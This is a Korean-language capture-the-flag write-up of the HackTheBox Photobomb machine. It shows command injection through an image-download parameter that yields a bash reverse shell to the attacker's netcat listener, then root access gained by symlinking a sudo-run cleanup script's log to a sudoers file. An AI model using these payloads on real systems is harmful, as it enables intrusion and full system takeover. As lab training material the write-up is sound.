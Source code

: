 
# Table of Contents

1.  [취약점 탐색](#search)
2.  [취약점 공격 및 쉘 획득](#attack)
3.  [권한 상승](#escal)

\#-**- mode: org -**-

본 포스트는 HackTheBox의 Photobomb machine을 해결하고 작성한 writeup이다. 문제를 푸는 과정에서는 여러 방법이 있을 수 있다. 따라서 본 포스트에서 설명하는 풀이는 유일한 정답이 아니다.


<a id="search"></a>

# 취약점 탐색

- 주어진 IP로 접속하면 다음과 같은 홈페이지를 확인할 수 있다.

<img src="https://drive.google.com/uc?export=view&id=12F0Jf3F-qF1trrguU586m2tlxvrLWWYd">

- 이미지 다운로드 페이지로 접속하려면 다음과 같이 credential이 필요하다.
   
<img src="https://drive.google.com/uc?export=view&id=1BdjSeLFNOL3ee9zMeiHNGD7HT-E0gMv5">
   
- credential은 다음과 같이 photobomb.js 에서 확인할 수 있다.

<img src="https://drive.google.com/uc?export=view&id=1H9JgKkTr7fiep7x95sKV-3hjrYKQlMie">
  
- 이미지 다운로드 페이지에서는 다운로드 받을 이미지와 해상도를 선택하여 다운받을 수 있다.

<img src="https://drive.google.com/uc?export=view&id=1Mqh-IM9qvPUhdboWndpw9dBlZv1xbKpb">

- 이미지 다운로드 버튼을 클릭하면 아래의 파라미터들이 POST 메소드를 통해 전달된다.
  
~~~
        photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg&dimensions=30x20
        
~~~
  
  
- 여기서 각각의 파라미터들을 배열 형태로 넘기거나 null값을 넘기면 에러가 발생하는데 에러 페이지에서는 이미지 처리 관련 ruby코드의 일부분을 출력한다. (추가적으로 sinatra라는 패키지를 사용하는 것을 알 수 있다.

<img src="https://drive.google.com/uc?export=view&id=1S8Jrrh3PzRLM7IAIgEx8Wj8GUXd6WJR6">

- 에러를 지속적으로 발생시켜서 출력되는 코드의 일부분들을 조합하여 정리하면 이미지 resize 및 다운로드와 관련된 코드들을 어떻게 동작하는지 확인이 가능하다.

~~~rb
post '/printer' do
  photo = params[:photo]
  filetype = params[:filetype]
  dimensions = params[:dimensions]

  # handle inputs
  if photo.match(/\.{2}|\//)
    halt 500, 'Invalid photo.'
  end

  if !FileTest.exist?( "source_images/" + photo )
    halt 500, 'Source photo does not exist.'
  end

  if !filetype.match(/^(png|jpg)/)
    halt 500, 'Invalid filetype.'
  end

  if !dimensions.match(/^[0-9]+x[0-9]+$/)
    halt 500, 'Invalid dimensions.'
  end

  case filetype
  when 'png'
    content_type 'image/png'
  when 'jpg'
    content_type 'image/jpeg'
  end

  filename = photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
  response['Content-Disposition'] = "attachment; filename=#{filename}"

  if !File.exists?('resized_images/' + filename)
    command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + filename
    puts "Executing: #{command}"
    system(command)
  else
    puts "File already exists."
  end
~~~

- 상기한 코드를 확인하면 filename은 이미지 원본의 이름, 해상도, 파일 확장자로 구성되고

~~~rb
filename = photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
~~~

- 이 filename은 command의 맨 마지막에 붙는다.

~~~rb
command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + filename
    puts "Executing: #{command}"
    system(command)
~~~

- 따라서 command의 맨 마지막에 붙는 부분은 filetype 변수이다.

~~~rb
command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
~~~

- 결과적으로 command의 마지막 부분에 &&등을 붙이고 뒤에 리버스 쉘을 실행하는 명령어 (bash -c 'bash -i >& /dev/tcp/ip/port 0>&1')를 붙이면 될 것으로 예상했다.



<a id="attack"></a>

# 취약점 공격 및 쉘 획득

- 우선 netcat 명령어를 로컬 PC의 터미널에서 실행하고

~~~shell
[hackryptic@Hackryptic-PC-1 ~]$ nc -lvnp port
~~~

- filetype 파라미터에 명령어 부분을 직접 넣으면

~~~
photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=%26%26bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fip%2Fport%200%3E%261%27&dimensions=30x20
~~~

- Invalid Filetype. 이라는 에러를 출력한다.

<img src="https://drive.google.com/uc?export=view&id=1WkQJNK1qGjfxyiBAUZ-rQa4Vl9DwtgKi">

- 이 에러는 다음과 같은 filetype을 체크하는 정규표현식 부분을 통과하지 못해서 발생하는데

~~~rb
if !filetype.match(/^(png|jpg)/)
    halt 500, 'Invalid filetype.'
  end
~~~

- 문자열의 시작 부분에 png나 jpg가 존재하는가에 대해서만 체크하기 때문에 이 조건만 만족시켜서 다시 파라미터 값을 작성하면 (앞쪽에 jpg나 png만 붙이고 동일하게 작성하면 된다.)

~~~
hoto=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg%26%26bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fip%2Fport%200%3E%261%27&dimensions=30x20
~~~

- 확장자 뒤쪽에 쉘 실행 명령어를 붙이면 다음과 같이 접속에 성공한다.

~~~shell
bash: cannot set terminal process group (722): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ 
~~~



<a id="escal"></a>

# 권한 상승

- 우선, sudo -l을 통해 sudo 권한이 걸린 명령어를 확인해보면 다음과 같은 결과가 출력된다.

~~~shell
wizard@photobomb:~/photobomb$ sudo -l

Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
~~~

- cleanup.sh 파일의 내용은 다음과 같다.

~~~shell
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb



# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
~~~


- cleanup.sh는 photobomb.log에 로깅된 내용이 있으면 photobomb.log.old 파일에 덮어쓰고 photobomb.log는 0 bytes로 trunate한다.

- 그리고 root 유저 권한으로 이 작업들을 실행하므로 덮어쓰고자 하는 파일(photobomb.log.old)에 부여된 파일 권한과 상관없이 이 작업을 수행할 수 있다. (어떤 파일이든 덮어쓸 수 있다.)

- 따라서 sudoers 파일을 조작하기 위해 다음과 같이 심볼릭 링크를 걸어준다. (파일이 이미 존재하면 photobomb.log.old 파일을 삭제한 뒤에 링크를 건다.)

~~~shell
wizard@photobomb:~/photobomb$ ln -s /etc/sudoers.d/photobomb ~/photobomb/log/photobomb.log.old
~~~

- 아래와 같이 심볼릭 링크가 제대로 되었는지 확인한 후에

~~~shell
lrwxrwxrwx 1 wizard wizard 24 Nov  8 02:22 /home/wizard/photobomb/log/photobomb.log.old -> /etc/sudoers.d/photobomb
~~~

- sudo 권한을 부여하기 위한 내용을 photobomb.log 파일에 작성하고

~~~shell
wizard@photobomb:~/photobomb$ echo "wizard ALL=(ALL) NOPASSWD: ALL" > ~/photobomb/log/photobomb.log
~~~

- 마지막으로/opt/cleanup.sh를 실행하면

~~~shell
wizard@photobomb:~/photobomb$ sudo /opt/cleanup.sh
~~~

- 다음과 같이 root 권한으로 상승할 수 있다.

~~~shell
wizard@photobomb:~/photobomb$ sudo su
root@photobomb:/home/wizard/photobomb#
~~~
